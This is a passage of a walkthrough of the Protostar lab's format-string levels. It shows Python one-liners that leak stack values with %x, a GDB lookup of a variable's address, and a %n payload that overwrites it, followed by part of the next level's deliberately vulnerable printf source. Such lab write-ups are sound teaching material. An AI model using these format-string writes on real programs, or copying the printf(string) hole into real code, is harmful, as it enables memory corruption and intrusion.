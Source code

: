 This is similar to format 1 except that we now have to write a specific value
to `target`.

We locate the start of our input string. This time, it's much easier since it
gets copied to a buffer in the same stack frame as our `printf()`function.

```shell
user@protostar:/opt/protostar/bin$ python -c "print 'AAAA' + '%x.'*3 + '%x'" | /opt/protostar/bin/format2
AAAA200.b7fd8420.bffff5c4.41414141
target is 0 :(
```

With GDB, we find the memory address of `target`.

```
(gdb) print &target
$2 = (int *) 0x80496e4
```

We demonstrate that we can write to `target`.

```shell
user@protostar:/opt/protostar/bin$ python -c "print '\xe4\x96\x04\x08' + '%x.'*3 + '%n'" | /opt/protostar/bin/format2
200.b7fd8420.bffff5c4.
target is 26 :(
```

Now, remember that `%n` writes the number of bytes that have already been
written by the function. We have control over that since we can supply
different format string parameters to write more or less bytes. This is usually
done by using `%nu` where `n` is a number that we can manipulate to write the
number of bytes we want.

```shell
user@protostar:/opt/protostar/bin$ python -c "print '\xe4\x96\x04\x08' + '%x.'*2 + '%47u' + '%n'" | /opt/protostar/bin/format2
200.b7fd8420.                                     3221222852
you have modified the target :)
```

# format 3

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);

  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
```

[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: {% post_url 2018-05-22-protostar-walkthrough-stack %}
[exploiting-format-string-paper]: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
[got-blog-post]: https://eli.thegreenplace.net/2011/11/03/position-independent-code-pic-in-shared-libraries/